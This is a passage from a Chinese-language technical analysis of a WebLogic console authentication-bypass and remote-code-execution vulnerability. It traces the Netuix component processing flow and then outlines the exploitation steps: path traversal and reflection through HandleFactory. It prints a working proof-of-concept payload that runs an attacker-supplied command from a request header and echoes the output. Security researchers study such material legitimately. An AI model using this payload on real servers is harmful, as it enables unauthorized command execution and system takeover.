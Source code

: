 这里也会调用com.bea.console.utils.GeneralBackingFile#localizeTitle，之后的流程与2.3.2中的流程完全相同。

**2.3.4 总结**

根据以上分析，我们可以看到除了strutsContent外，其他几种组件的应用方式都比较类似，关键点为两个：
- 组件的preRender流程中会调用到Backable#preRender方法
- backingFile为GeneralBackingFile子类，同时其preRender方法会调用父类localizeTitle方法
想要寻找其他的组件可以看一下继承树：

[![](https://p0.ssl.qhimg.com/t012d8ee280ee8cbfd1.jpg)](https://p0.ssl.qhimg.com/t012d8ee280ee8cbfd1.jpg)

红框所标注的即为2.3.2与2.3.3中所分析到的调用过程。



## 0x03 漏洞利用

经过0x02的分析，我们不难看出该漏洞和其他传统的越权漏洞是有很大区别的：
1. 所谓的认证绕过是通过请求原本无需认证的资源路径
1. 在1的基础上利用../造成目录穿越，使Netuix在初始化语法树时读取对应的后台模板文件
1. 在Netuix生命周期中通过组件对应的处理流程触发Handle流程
1. 组件处理流程中会将请求中以handle结尾的参数的值作为参数传入HandleFactory#getHandle方法中，完成反射调用
所以利用方式也显而易见，这里利用@77ca1k1k1的poc做展示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0130318b915911daab.jpg)

poc：

```
com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]`{`"cmd.exe", "/c", cmd`}` : new String[]`{`"/bin/sh", "-c", cmd`}`;if(cmd != null )`{` String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();`}` currentThread.interrupt();')
```



## 0x04 Reference

[https://docs.oracle.com/cd/E13218_01/wlp/docs81/whitepapers/netix/body.html](https://docs.oracle.com/cd/E13218_01/wlp/docs81/whitepapers/netix/body.html)

[@77ca1k1k1关于回显的研究](https://mp.weixin.qq.com/s/u8cZEcku-uIbGAVAcos5Tw)
